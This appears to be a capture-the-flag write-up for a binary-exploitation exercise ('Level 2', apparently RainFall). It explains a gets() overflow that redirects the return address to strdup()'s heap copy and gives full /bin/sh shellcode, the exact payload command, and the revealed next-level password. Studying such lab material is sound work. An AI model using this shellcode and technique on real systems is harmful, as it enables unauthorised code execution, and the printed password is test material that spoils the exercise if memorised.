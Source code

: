 # Level 2

<h3>source.c</h3>

```console
void p(void) {
  char str[64];
  uint ret;

  fflush(stdout);
  gets(str);

  ret = __builtin_return_address(0): // Compiler function to get the return adress

  if ((ret & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n", ret);
    exit(1);
  }
  else {
    puts(str);
    strdup(str);
  }
}

void main(void) {
  p();
}
```

<h3>Analysis</h3>

We have the function main which do nothing but calling `p()`

In the `p()`, it has a protection to check if the return address starts with `0xb`, and will exit if it is

This is very concerning as the initial plan for this exploit is to overwrite the `RET` to call `system()` which in turn, spawn a shell

But after analyzing with `gdb`, the address for ths `system()` is `0xb7e6b060` which starts with `0xb`, thus we could not point to this address

```console
(gdb) p system
$4 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

Normaly the address that starts with `0xb7` means that this data are inside the stack, so this prevent the execution of the stack.

We need to find another way to call the `system()` to spawn a shell for our exploit


<h3>Exploit</h3>

At the later part of the program, it will call `strdup()` which will copy whatever we enter during the `gets()`

Why is this important ?

For example, if we input the string `open_shell` to the `get()`, the `str` variable will point to an address which contains the string `open_shell`

Since `str` is part of the local variable which in turn a part of the stack, the address that `str` pointed will definitely starts with `0xb`

However, `strdup()` is a function that use malloc to get memory allocation, which will be in the `heap`

If we check with `ltrace`, `strdup()` will always returns a pointer to the address `0x0804a008`, as it does not start with `0xb`, the program will allows the `RET` to this location

So, imagine if we overwrite the `RET` address to `0x0804a008`, the program will jump to this address and start to read the copied content `open_shell`,

Now if we replace the example string `open_shell` with a real `shellcode`, the program could potentially run the `shellcode` and spawn a `shell` for us!

We can find the `shellcode` in the internet, the following will be equivalent to `execve("/bin/sh")`

`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80`

Next we need to find the offset to overwrite the `RET` pointer, using the same method as the previous level, we found that we need `80 bytes` as the offset

The `shellcode` itself is 28 bytes, so we need to add another 52 random char as bytes as the offset + address of the pointer return by `strdup()`

We need to print the `shellcode` first before the random char, because we want the program to run it as soon as it jumps

The final exploit will looks like this

`'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'a' * 52 + '\x08\xa0\x04\x08'`

```console
level2@RainFall:~$ (python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'a' * 52 + '\x08\xa0\x04\x08'"; cat - ) | ./level2
1�Ph//shh/bin����°
                   ̀1�@̀aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

<h3>Helpful link for this exploit</h3>

```console
https://www.youtube.com/watch?v=HSlhY4Uy8SA&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=15
https://www.youtube.com/watch?v=m17mV24TgwY&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=17
http://shell-storm.org/shellcode/files/shellcode-811.php
```